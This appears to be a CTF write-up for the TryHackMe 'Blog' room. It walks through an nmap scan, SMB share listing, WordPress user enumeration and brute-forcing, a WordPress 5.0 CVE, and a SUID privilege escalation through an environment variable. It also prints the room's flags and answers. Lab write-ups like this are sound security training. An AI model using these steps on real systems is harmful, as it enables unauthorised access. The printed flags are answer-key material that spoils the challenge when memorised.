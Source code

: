 ```yaml
---
title: "Blog - TryHackMe"
author: Ludovic COULON
date: 2020-07-17
hero: ./images/hero.png
excerpt: "Writeup for the Blog CTF challenge"
---
```


[TryHackMe | Blog](https://tryhackme.com/room/blog)

Welcome to Blog room, a puzzle-style CTF. Collecting the item, solving the puzzle and escaping the nightmare is your top priority.

Can you survive until the end?If you have any question, do not hesitate to DM me on the discord channel.

![https://images.unsplash.com/photo-1486312338219-ce68d2c6f44d?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1352&q=80](https://images.unsplash.com/photo-1486312338219-ce68d2c6f44d?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1352&q=80)

Photo by [Glenn Carstens-Peters](https://unsplash.com/@glenncarstenspeters?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) on [Unsplash](https://unsplash.com/s/photos/blog?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)

Billy Joel made a blog on his home computer and has started working on it. It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it! Billy has some
weird things going on his laptop. Can you maneuver around and get what
you need? Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to [Sq00ky](https://tryhackme.com/p/Sq00ky) for the root privesc idea ;)

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.37.237
```

```bash
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3hfvTN6e0P9PLtkjW4dy+6vpFSh1PwKRZrML7ArPzhx1yVxBP7kxeIt3lX/qJWpxyhlsQwoLx8KDYdpOZlX5Br1PskO6H66P+AwPMYwooSq24qC/Gxg4NX9MsH/lzoKnrgLDUaAqGS5ugLw6biXITEVbxrjBNdvrT1uFR9sq+Yuc1JbkF8dxMF51tiQF35g0Nqo+UhjmJJg73S/VI9oQtYzd2GnQC8uQxE8Vf4lZpo6ZkvTDQ7om3t/cvsnNCgwX28/TRcJ53unRPmos13iwIcuvtfKlrP5qIY75YvU4U9nmy3+tjqfB1e5CESMxKjKesH0IJTRhEjAyxjQ1HUINP
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJtovk1nbfTPnc/1GUqCcdh8XLsFpDxKYJd96BdYGPjEEdZGPKXv5uHnseNe1SzvLZBoYz7KNpPVQ8uShudDnOI=
|   256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICfVpt7khg8YIghnTYjU1VgqdsCRVz7f1Mi4o4Z45df8

80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-generator: WordPress 5.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog

139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   BLOG<00>             Flags: <unique><active>
|   BLOG<03>             Flags: <unique><active>
|   BLOG<20>             Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 28514/tcp): CLEAN (Couldnt connect)
|   Check 2 (port 48324/tcp): CLEAN (Couldnt connect)
|   Check 3 (port 42470/udp): CLEAN (Timeout)
|   Check 4 (port 36313/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2020-07-12T19:07:26+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-07-12T19:07:26
|_  start_date: N/A
```

As you can see there is a SMB server open with the guest credentials, let's see what's inside of the server.

```bash
➜  blog smbclient -L 10.10.37.237
Enter WORKGROUP\kali password:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

![https://imgur.com/BMgqkDa.png](https://imgur.com/BMgqkDa.png)

![https://imgur.com/ONKwYZa.png](https://imgur.com/ONKwYZa.png)

```bash
➜  blog steghide extract -sf Alice-White-Rabbit.jpg
Enter passphrase:
wrote extracted data to "rabbit_hole.txt".
➜  blog cat rabbit_hole.txt
You've found yourself in a rabbit hole, friend.
```

Let's see if we can enumerate some username to brute-force the administration page of WordPress

![https://imgur.com/ttyfVpD.png](https://imgur.com/ttyfVpD.png)

Nice, we have the username : bjoel, kwheel

[](http://blog.thm/wp-json/wp/v2/users)

![https://imgur.com/NFazDUA.png](https://imgur.com/NFazDUA.png)

![https://imgur.com/3UG7eKi.png](https://imgur.com/3UG7eKi.png)

On the website you can see the CVE let's try it 🥺

![https://imgur.com/dl0F04t.png](https://imgur.com/dl0F04t.png)

![https://imgur.com/5T7o6Jf.png](https://imgur.com/5T7o6Jf.png)

### #1 root.txt

```bash
find / -xdev -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![https://imgur.com/BdKvKff.png](https://imgur.com/BdKvKff.png)

With Ghidra I reverse engineering the binary 🐉

```c
int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}
```

Exploit

```bash
$ export admin=SOMTHINGHERE
# Execute the bin
$ /usr/sbin/checker
```

Nice ! You now have the root privilege 🤩

```bash
root@blog:/dev/shm: cat /root/root.txt
cat /root/root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
```

### #2 user.txt

```bash
root@blog:/dev/shm:: find / -type f -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt

root@blog:/dev/shm: cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
```

### #3 Where was user.txt found?

```bash
/media/usb
```

### #4 What CMS was Billy using?

```bash
Wordpress
```

### #5 What version of the above CMS was being used?

![https://imgur.com/9JSk8SX.png](https://imgur.com/9JSk8SX.png)

```bash
5.0
```
